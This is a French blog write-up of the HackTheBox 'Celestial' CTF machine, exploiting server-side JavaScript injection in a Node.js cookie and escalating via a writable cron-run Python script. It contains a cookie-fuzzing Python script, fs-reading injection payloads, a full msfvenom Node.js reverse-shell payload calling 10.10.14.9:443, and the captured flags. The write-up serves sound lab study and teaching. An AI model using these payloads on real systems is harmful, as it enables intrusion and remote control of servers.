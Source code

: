 ```yaml
---
title: "Solution du CTF Celestial de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Back to the root(s)
-------------------

En attendant la venue d'un nouveau CTF basé sur Windows sur [HackTheBox](https://www.hackthebox.eu/), je me suis penché sur différentes machines sous Linux.  

*Celestial* était l'une de celles-ci.  

2 + 2 = 22
----------

J'ai commencé par le classique scan de ports Nmap, ici un peu plus poussé via l'utilisation de plus de scripts :  

```plain
nmap -T5 --script safe -sC -sV -p- -A -oA scan 10.10.10.85
```

La seule chose à retenir c'est la présence du port 3000 ouvert ainsi que de nombreux ports non filtrés, ce qui peut être utile pour la suite :  

```plain
Not shown: 63272 closed ports, 2262 filtered ports
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-comments-displayer: Couldn't find any comments.
|_http-date: Wed, 22 Aug 2018 09:49:39 GMT; -4s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers:
|   X-Powered-By: Express
|   Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Wed, 22 Aug 2018 10:04:44 GMT; HttpOnly
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 12
|   ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
|   Date: Wed, 22 Aug 2018 09:49:44 GMT
|   Connection: close
```

On voit clairement la mention de *Nodejs*. Au vu du numéro de port peu banal pour un service web j'ai d'abord pensé qu'il s'agissait d'un service de débogage à distance, j'ai donc lancé le module *Metasploit* *multi/misc/nodejs\_v8\_debugger* mais ceci n'a mené nul part, la réponse n'était clairement pas celle attendue par *Metasploit* je faisais fausse route.  

Je pointe donc mon browser sur ce port 3000 et j'obtiens une erreur HTTP. Un reload de la page plus tard et on a le message *Hey Dummy 2 + 2 is 22*.  

Il n'y a que [Javascript pour sortir cela bien sûr](https://gfycat.com/fr/gifs/detail/offensivefarflungbluefish) (oh no! It's retarded!) et c'est indice suffisant pour ce qui va venir.  

Si le message vient après un reload c'est parce qu'un cookie a été défini par le site. On le voit d'ailleurs dans le scan Nmap et il peut se décoder via base64 ce qui nous donne un dictionnaire JSON :  

```python
{
  "username":"Dummy",
  "country":"Idk Probably Somewhere Dumb",
  "city":"Lametown",
  "num":"2"
}
```

Attaquer les valeurs du dictionnaire n'est pas vraiment compliqué pour qui maîtrise bien Python (ou un autre vrai langage de programmation héhéhé).  

On part du même dictionnaire que l'on modifie dans une boucle que l'on sérialise en JSON pour ensuite encoder en base64 la chaîne obtenue transmise alors dans le cookie.  

Ma remière tentative a consisté à bruteforcer le champ *username* sans succès.  

Comme on est en face de Javascript il s'agit probablement d'une faille d'injection de code, auquel cas l'injection est à faire dans le champ *num*

Pour attaquer sans trop de difficultés ce champ j'ai écrit le script suivant, il suffit alors de lui passer un fichier avec les payloads :  

```python
import sys
import json
from urllib.parse import quote
from base64 import b64encode

import requests
from requests.exceptions import RequestException

data = {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
KEY = "num"
sess = requests.session()

wordlist = sys.argv[1]
with open(wordlist) as fd:
    for line in fd:
        word = line.strip()
        data["num"] = word

        try:
            raw = json.dumps(data).encode()
        except UnicodeEncodeError:
            continue
        else:
            raw = quote(b64encode(raw))
            try:
                response = sess.get(
                    "http://10.10.10.85:3000/",
                    headers={"cookie": "profile={}".format(raw)}
                )
            except RequestException:
                continue
            else:
                print(response.status_code, word)
                print(response.content)
```

Pour les payloads intéressants on peut se baser [sur cette page](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html) et commencer ainsi par l'injection suivante :  

```javascript
;res.end(require('fs').readdirSync('.').toString())
```

Ce qui nous retourne le contenu suivant :  

```plain
.ICEauthority
.Xauthority
.bash_history
.bash_logout
.bashrc
.cache
.config
.dbus
.dmrc
.gconf
.gnupg
.gvfs
.lesshst
.local
.mozilla
.nano
.node_repl_history
.npm
.profile
.selected_editor
.sudo_as_admin_successful
.xsession-errors
.xsession-errors.old
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
examples.desktop
node_modules
output.txt
server.js
```

On peut alors continuer en dumpant le contenu du premier flag avec le payload *;res.end(require('fs').readFileSync('Documents/user.txt'))* :  

```plain
9a093cd22ce86b7f41db4116e80d0b0f
```

Title is undefined
------------------

Lister les dossiers, lire des fichiers, c'est déjà pas mal mais on veut un vrai shell alors on dégaine *msfvenom* (aka *Il y a un payload pour ça*).  

```plain
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.9 LPORT=443 --arch nodejs --platform nodejs -f raw
No encoder or badchars specified, outputting raw payload
Payload size: 797 bytes
 (function(){ var require = global.require || global.process.mainModule.constructor._load; if (!require) return; var cmd = (global.process.platform.match(/^win/i)) ? "cmd" : "/bin/sh"; var net = require("net"), cp = require("child_process"), util = require("util"), sh = cp.spawn(cmd, []); var client = this; var counter=0; function StagerRepeat(){ client.socket = net.connect(443, "10.10.14.9", function() { client.socket.pipe(sh.stdin); if (typeof util.pump === "undefined") { sh.stdout.pipe(client.socket); sh.stderr.pipe(client.socket); } else { util.pump(sh.stdout, client.socket); util.pump(sh.stderr, client.socket); } }); socket.on("error", function(error) { counter++; if(counter<= 10){ setTimeout(function() { StagerRepeat();}, 5*1000); } else process.exit(); }); } StagerRepeat(); })();
```

On injecte ce payload et notre reverse shell minimaliste arrive :)   

On dispose d'un accès avec le compte *sun* :  

```plain
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Il y a deux fichiers intéressants dans le home de l'utilisateur :  

```plain
sun@sun:~$ cat Documents/script.py
print "Script is running..."

sun@sun:~$ ls -l output.txt
-rw-r--r-- 1 root root 63 Aug 22 09:05 output.txt

sun@sun:~$ cat output.txt
Script is running...
Script is running...
Script is running...
```

Il semble que le script soit exécuté par root à intervalle régulier ce qui expliquerait les permissions sur *output.txt*.  

On ne voit rien dans */etc/crontab* qui correspond et on n'a pas le mot de passe de *sun* pour afficher ses permissions sudo... Mais on peut écrire dans *script.py*. Alors [je tente ma chance](https://www.youtube.com/watch?v=1t-Bxw2lbdw) ?  

Je rajoute [une ligne de reverse shell python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) au fichier et *sure enough* on finit par obtenir notre accès et le flag qui va avec (*ba1d0019200a54e370ca151007a8095a*).  

It is not my code fault, it's Javascript
----------------------------------------

That was fast... Pour être sûr que j'avais suivi le chemin attendu j'ai retrouvé la ligne suivante dans le *crontab* de root :  

```plain
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py
```


*Published August 25 2018 at 18:19*
